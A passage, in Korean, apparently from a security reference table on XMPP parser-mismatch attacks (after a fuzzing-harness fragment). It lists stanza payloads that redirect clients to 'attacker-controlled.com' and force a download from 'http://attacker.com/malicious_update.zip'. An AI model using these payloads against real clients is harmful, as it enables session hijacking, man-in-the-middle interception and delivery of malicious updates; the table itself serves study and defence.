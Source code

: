   int gloox_ret = gloox_parser.feed(reparsed);
  if(gloox_ret >= 0) {
    crash[0] = 1;
  }
}</code></pre>
      </td>
      <td>자동화된 Fuzzing 스크립트와 로그 비교 및 클라이언트 화면 확인을 통해 파서 불일치가 실제 발생하는지 검증한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Exploitation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Custom Error Stanza Redirect Exploitation</td>
      <td> <pre> <code>&lt;stream:error&gt;
      &lt;revoke-token reason='1' web-domain='...'/&gt;
  &lt;/stream:error&gt;</code></td>
      <td>악성 <code>&lt;stream:error&gt;</code> 스탠자를 삽입해 클라이언트를 공격자 도메인으로 리다이렉트하고, 세션 탈취·인증 우회를 실행한다.</td>
      <td>[1]</td>
    </tr>
    <tr>
      <td>Connection Redirect (MitM)</td>
      <td>
        <pre><code>&lt;stream:error&gt;
  &lt;revoke-token reason='1' web-domain='attacker-controlled.com'/&gt;
&lt;/stream:error&gt;</code></pre>
      </td>
      <td><code>see-other-host</code>과 같은 표준 에러 스탠자나 애플리케이션의 커스텀 리디렉션 Stanza를 통해 피해자 클라이언트의 연결을 공격자가 제어하는 서버로 강제 전환시켜 중간자 공격을 수행한다.</td>
      <td>[1]</td>
    </tr>
    <tr>
      <td>Custom Extension Abuse</td>
      <td>
        <pre><code>&lt;!-- Zoom's custom stanza to force an update check from a malicious server --&gt;
&lt;clusterswitch&gt;
  &lt;releasenotes svr_url="http://attacker.com/malicious_update.zip" /&gt;
&lt;/clusterswitch&gt;</code></pre>
      </td>
      <td>서버에서만 사용되어야 할 애플리케이션의 비공개 또는 커스텀 XMPP 확장 기능을 클라이언트에 직접 전송한다. 클라이언트의 자동 업데이트 메커니즘을 조작하거나 숨겨진 기능을 트리거하여 의도치 않은 동작을 유발한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>
